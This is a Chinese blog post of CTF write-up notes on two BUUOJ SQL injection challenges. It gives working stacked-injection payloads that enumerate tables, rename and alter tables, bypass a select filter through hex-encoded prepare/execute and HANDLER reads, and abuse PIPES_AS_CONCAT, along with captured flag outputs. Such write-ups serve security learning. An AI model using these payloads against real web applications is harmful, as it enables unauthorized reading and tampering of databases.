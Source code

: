 ```yaml
---
title: 记录一下近期刷Buuoj学到的一点做题技巧
date: 2022-09-21 17:51:00
updated: 2022-09-21 20:45:00
tags: [ctf, security]
description: 一些笔记
---
```


## 强网杯2019_随便注

这是一道考堆叠注入的题目。

```python
1' order by 2 # 
```

用order by可以测出返回的字段数量为2

但是发现题目过滤了union和select
![图 1](https://s2.loli.net/2022/09/21/3HqpYwIAMWO2xv6.png)  

那么这里可以用堆叠注入，用`;`注入多条语句，用show来查询库名表名列名。

```
?inject=1';show databases;%23

array(1) {
  [0]=>
  string(11) "ctftraining"
}

array(1) {
  [0]=>
  string(18) "information_schema"
}

array(1) {
  [0]=>
  string(5) "mysql"
}

array(1) {
  [0]=>
  string(18) "performance_schema"
}

array(1) {
  [0]=>
  string(9) "supersqli"
}

array(1) {
  [0]=>
  string(4) "test"
}
```

```
?inject=1';show tables;%23

array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}
```

```
?inject=1';show columns from `1919810931114514`;%23

array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

发现flag，但是没法直接查出flag字段的值。

### 思路一

根据对表结构的观察，我们直接输入的变量会从words表中根据id查出对应的值，那么这里可以想办法让flag从`1919810931114514`这个表到words表下，从而查出flag。

不过flag所在的表`1919810931114514`是没有id这个列的，所以我们先将words表rename成其他表，再将`1919810931114514`表改名为words并且添加列名id,再将flag这个列名改为data。

alter
作用：修改已知表的列。（ 添加：add | 修改：alter，change | 撤销：drop ）

用法：
```
添加一个列
alter table " table_name" add " column_name"  type;

删除一个列
alter table " table_name" drop " column_name"  type;

改变列的数据类型
alter table " table_name" alter column " column_name" type;

改列名
alter table " table_name" change " column1" " column2" type;

alter table "table_name" rename "column1" to "column2";
```

```
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);%23

array(2) {
  [0]=>
  string(42) "flag{1957d8cb-e9c3-43a2-8535-baf3a012a9ba}"
  [1]=>
  string(1) "1"
}
```

### 思路二

用16进制编码绕过select的过滤查询flag字段的值。

将select * from ` 1919810931114514 `进行16进制编码，再通过构造payload得

```
1'SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;%23
```

理语句，会进行编码转换。
execute用来执行由SQLPrepare创建的SQL语句。
SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值。

### 思路三

用handler替换select来进行查询。

mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。

```
HANDLER tbl_name OPEN [ [AS] alias]
 
HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]
 
HANDLER tbl_name CLOSE
```

```
?inject=1'; handler `1919810931114514` open as `a`; handler `a` read next;%23

array(1) {
  [0]=>
  string(42) "flag{3d656713-cae4-496d-a8fc-e197d81e8661}"
}
```

## SUSCTF2019_EasySQL

> 参考文章<https://www.cnblogs.com/gtx690/p/13176458.html>

首先也是先用字典`<https://github.com/TheKingOfDuck/fuzzDicts/blob/master/sqlDict/sql.txt`>fuzz一下过滤情况，然后发现报错注入和盲注一些常见的函数都被过滤了，这里可以考虑用堆叠注入，并且select并没有被过滤。

```
1;show databases;

1;show tables;

1;show columns from Flag;
```

诶但是flag被过滤了，因此这里不能看Flag的表结构了。

### 思路一

这是官方的wp中的思路，这里的sql语句为`select $post['query']||flag from Flag`。

```
1;set sql_mode=PIPES_AS_CONCAT;select 1
```

其中set sql_mode=PIPES_AS_CONCAT;的作用是将||的功能从 或运算（or） 改为  字符串拼接，从而将select1和select flag from Flag的结果拼接在一起。

### 思路二

如果$post[‘query’]的数据为*,1，sql语句就变成了select*,1||flag from Flag，也就是select *,1 from Flag，也就是直接查询出了Flag表中的所有内容

但是这里两种思路都是需要能够猜到查询语句的，所以感觉还是比较难的题目，做的时候很难想到。

